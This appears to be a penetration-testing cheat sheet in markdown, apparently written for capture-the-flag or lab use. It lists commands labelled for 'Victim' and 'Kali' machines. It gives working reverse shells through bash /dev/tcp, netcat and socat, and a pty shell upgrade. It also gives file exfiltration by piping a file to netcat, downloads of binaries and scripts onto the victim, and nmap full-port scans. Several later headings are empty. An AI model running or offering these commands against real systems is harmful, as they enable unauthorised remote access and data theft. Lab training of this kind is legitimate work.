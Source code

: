 # Useful Commands

## Create web server

### With Python

```
python3 -m http.server 8888
``` 

```
python -m SimpleHTTPServer 8888
```

## Upgrade reverse shell

### With Socat

*Victim:* 
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O socat
chmod +x socat
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:4444
```
        
*Kali:*
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

### With Python

*Victim:* 
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## Send files

### With netcat

*Victim:*
```
cat file.txt | nc -q 0 10.10.10.10 4444
```

*Kali:*
```
nc -lvp 4444 > file.txt
```

### With web server

*Kali:*
```
python3 -m http.server 8888 
```

```
python -m SimpleHTTPServer 8888
```

*Victim:* 
```
wget http://10.10.10.10:8888/something.sh -O something.sh
```

## Reverse shells

### With bash

```
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

### With netcat

```
nc -e /bin/sh 10.10.10.10 4444
```

### Listener

```
nc -lvp 4444
```

# Enumeration

### Nmap

TCP Scan:

```
nmap -sV -sC -p- 10.10.10.77
```

UDP Scan:

```
nmap -sU -sV -p- 10.10.10.77
```

# Privilege Escalation

# Reverse Engineering

# Some Scripts

# References
